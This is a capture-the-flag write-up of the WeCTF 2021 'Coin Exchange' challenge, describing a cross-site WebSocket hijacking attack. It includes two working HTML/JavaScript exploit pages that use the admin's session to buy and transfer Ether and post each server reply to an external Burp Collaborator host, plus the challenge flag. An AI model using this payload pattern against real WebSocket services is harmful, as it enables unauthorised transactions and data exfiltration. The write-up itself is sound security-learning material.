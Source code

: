 ```yaml
---
title: WeCTF 2021 - Coin Exchange
layout: post 
date: '2021-06-21 11:00:00'
description: solving a CSWSH vuln chall
image: 'https://i.imgur.com/amEYCG6.jpg'
tags:
- web
- ctf
- infosec
- writeup
author: k4l1
---
```


Hi everyone! C:

After lot of months I'm posting here again! I played the WeCTF 2021(a only-web CTF) with my team, we got #25/574 place and the challs were awesome. I'm finally studying web vulns and now had a chance to apply that.


## Description

62 solves / 379 pts

>Shou lost a few thousand bucks on cryptocurrency. So, he decided to fake a crypto exchange and steal all the money of the users next week. Try break Shou's evil plan by stealing all his money.

>This challenge requires user interaction. Send your payload to uv.ctf.so Flag is sent when you have $5000 in the account.

>Hint: Search CSRF if you don't know what that is.

>Host 1 (San Francisco): coin.sf.ctf.so:4001
>Host 2 (Los Angeles): coin.la.ctf.so:4001
>Host 3 (New York): coin.ny.ctf.so:4001
>Host 4 (Singapore): coin.sg.ctf.so:4001
>
>Source Code: [here]([https://](https://cdn.discordapp.com/attachments/855858525087334421/855858633715351597/coin-exchange.zip))

## Coin Exchange Website

#### Login

![](https://i.imgur.com/hjm5Z54.png)

#### Exchange

![](https://i.imgur.com/vEFD7Jn.png)

#### Ranking

![](https://i.imgur.com/8t3YfA0.png)

#### Transfer

![](https://i.imgur.com/YzK1SR7.png)


## Solution

This site use Websocket instead http requests and isn't protected to CSRF, so basically we need send to admin a malicious website with CSWSH(Cross-site websocket hijacking) to transfer eth to your account.

Intercepting with BurpSuite and seeing on `WebSockets history` we can read the traffic:

![](https://i.imgur.com/GwnLdLz.png)


Checking the source, we can see how the connection is created:


```js
function start_socket(){
    socket = new WebSocket("ws://" + document.URL.substr(7).split('/')[0], "ethexchange-api");
    socket.onopen = function(e) {
        routine = setInterval(routine_update, 1000)
    };
    socket.onmessage = function(event) {
        .
        .
        .
    }
}
```

On second line we can see that it use a custom protocol called `ethexchange-api`, this will be important to connect.

For send a page to admin, I'm using `ngrok` with python `SimpleHTTPServer` and receiving the response with `Burp Collaborator`.

Let's try send a exploit to admin that transfer 3 Eth to our account...

```html
<!DOCTYPE html>
<html>
  <body>
    <script>
      var transfer = {"type":"transfer","content":{"amount":"3","to_token":"34450f23a163a464c4b852331ac7fe0f0f531a136f6707c02f4248ebf9f98d7c"}}

      const socket = new WebSocket('ws://coin.ny.ctf.so:4001/', "ethexchange-api");

      socket.onopen = function(e) {
        socket.send(JSON.stringify(transfer));
      }
      socket.onmessage = function(event) {
        fetch("http://81700rdv5a7etyhroodd98fodfj57u.burpcollaborator.net", {method: "POST", mode: 'cors', body: event.data}).then(response => {console.log(response.json())});
      }
    </script>
  </body>
</html>
```

Sending...

![](https://i.imgur.com/h8o4Fkp.png)

Badly, the admin don't have Eth, so we need to buy with his money(on Ranking Page show that the admin had `$1000000000000`).

```js
<!DOCTYPE html>
<html>
  <body>
    <script>
      var transfer = {"type":"transfer","content":{"amount":"3","to_token":"34450f23a163a464c4b852331ac7fe0f0f531a136f6707c02f4248ebf9f98d7c"}}
      var buy = {"type":"buy","content":{"amount":"7000"}}

      const socket = new WebSocket('ws://coin.ny.ctf.so:4001/', "ethexchange-api");

      socket.onopen = function(e) {
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(transfer));
      }
      socket.onmessage = function(event) {
        fetch("http://81700rdv5a7etyhroodd98fodfj57u.burpcollaborator.net", {method: "POST", mode: 'cors', body: event.data}).then(response => {console.log(response.json())});
      }
    </script>
  </body>
</html>
```

Sending again to admin, we can see that we transferred 3 eth after buy it 3 times with $7000.
![](https://i.imgur.com/XEa4u0p.png)

Intercepting again after got more than $5000 on our account:

![](https://i.imgur.com/aYLN8L9.png)

We got the flag: `we{1e1b12c8-ed85-4b2b-879d-7475febe6281@d0g3&sh1b_th3_BEST!}`


## References

* [CSWSH vuln chall](https://kalinathalie.github.io/web-chall-coin-exchange-wectf2021/)